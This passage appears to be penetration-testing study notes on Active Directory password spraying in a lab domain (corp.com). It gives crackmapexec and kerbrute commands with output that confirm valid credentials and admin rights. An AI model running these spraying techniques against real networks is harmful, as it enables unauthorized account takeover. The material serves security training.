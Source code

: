 As a bonus, however, the output of crackmapexec not only displays if credentials are valid, but also if the user with the identified credentials has administrative privileges on the target system
+ For example, _dave_ is a local admin on CLIENT75
+ Will use crackmapexec with the password _Flowers1_ targeting this machine
```
kali@kali:~$ crackmapexec smb 192.168.50.75 -u dave -p 'Flowers1' -d corp.com                       
SMB         192.168.50.75   445    CLIENT75         [*] Windows 10.0 Build 22000 x64 (name:CLIENT75) (domain:corp.com) (signing:False) (SMBv1:False)
SMB         192.168.50.75   445    CLIENT75         [+] corp.com\dave:Flowers1 (Pwn3d!)
```
+ Above shows that crackmapexec added _Pwn3d!_ to the output, indicating that _dave_ has administrative privileges on the target system
+ In an assessment, this is an excellent feature to determine the level of access we have without performing additional enumeration

#### Password Spraying With a TGT
The third kind of password spraying attack we'll discuss is based on obtaining a TGT
+ For example, using _kinit_ on a Linux system, we can obtain and cache a Kerberos TGT
+ We'll need to provide a username and password to do this
+ If the credentials are valid, we'll obtain a TGT
+ The advantage of this technique is that it only uses two UDP frames to determine whether the password is valid, as it sends only an AS-REQ and examines the response

We could use Bash scripting or a programming language of our choice to automate this method
+ Fortunately, we can also use the tool _kerbrute_, implementing this technique to spray passwords
+ Since this tool is cross-platform, we can use it on Windows and Linux

Let's use the Windows version in **`C:\Tools`** to perform this attack
+ To conduct password spraying, we need to specify the **passwordspray** command along with a list of usernames and the password to spray
+ We'll also need to enter the domain **corp.com** as an argument for **-d** 
+ As previously, we'll create a file named **`usernames.txt`** in **`C:\Tools`** containing the usernames _pete_, _dave_, and _jen_
```
.\kerbrute_windows_amd64.exe passwordspray -d <DOMAIN> <USER_LIST_FILE> "<PASSWORD>"
```
+ Example:
```
PS C:\Tools> type .\usernames.txt
pete
dave
jen

PS C:\Tools> .\kerbrute_windows_amd64.exe passwordspray -d corp.com .\usernames.txt "Nexus123!"

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: v1.0.3 (9dad6e1) - 09/06/22 - Ronnie Flathers @ropnop

2022/09/06 20:30:48 >  Using KDC(s):
2022/09/06 20:30:48 >   dc1.corp.com:88
2022/09/06 20:30:48 >  [+] VALID LOGIN:  jen@corp.com:Nexus123!
2022/09/06 20:30:48 >  [+] VALID LOGIN:  pete@corp.com:Nexus123!
2022/09/06 20:30:48 >  Done! Tested 3 logins (2 successes) in 0.041 seconds
```
+ Above shows that kerbrute confirmed that the password _Nexus123!_ is valid for _pete_ and _jen_
+ If you receive a network error, make sure that the encoding of **usernames.txt** is _ANSI_ 
	+ You can use Notepad's _Save As_ functionality to change the encoding
